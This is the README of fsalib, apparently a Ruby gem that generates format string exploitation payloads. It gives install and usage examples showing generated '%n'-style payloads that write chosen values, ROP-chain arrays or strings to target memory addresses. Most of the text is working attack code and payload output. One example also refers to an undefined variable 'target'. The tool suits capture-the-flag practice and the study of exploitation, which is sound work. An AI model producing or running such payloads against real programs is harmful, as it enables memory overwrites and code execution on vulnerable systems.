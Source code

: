 # fsalib

[![Build Status](https://travis-ci.org/owlinux1000/fsalib.svg?branch=master)](https://travis-ci.org/owlinux1000/fsalib)
[![MIT License](http://img.shields.io/badge/license-MIT-blue.svg?style=flat)](LICENSE)

I made this script based on [libformatstr](https://github.com/hellman/libformatstr).


## Install

```
$ gem install fsa
```

## Usage

### Basic

```ruby
#coding: ascii-8bit
require_relative 'fsa'

target_addr = 0x08049580

value = 0xdeadbeef
fmt = FSA.new()
fmt[target_addr] = value
p fmt.payload(0) # index of argument
#=> "%48879c%6$hn%8126c%7$hnA\x80\x95\x04\b\x82\x95\x04\b"

# Supported Array
value = [0xdeadbeef, 0xdeadbeef] # like ropchain
fmt = FSA.new()
fmt[target_addr] = value
p fmt.payload(0)
#=> "%48879c%9$hn%10$hn%8126c%11$hn%12$hn\x80\x95\x04\b\x84\x95\x04\b\x82\x95\x04\b\x86\x95\x04\b"

# Supported String
value = "H@CK"
fmt = FSA.new()
fmt[target] = value
p fmt.payload(0)
#=> "%16456c%6$hn%2811c%7$hnA\x80\x95\x04\b\x82\x95\x04\b"
```

### Advanced

```ruby
#coding: ascii-8bit
require_relative 'fsa'

target_addr = 0x08049580
value = 0xdead            # 2byte(Supported 2byte, 1byte)
fmt = FSA.new(30)         # padding 
fmt[target_addr] = value
p fmt.payload(0, start_len = 10) # len of already printed data
#=> "%57005c%3$hnAAL\xA0\x04\b\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

```
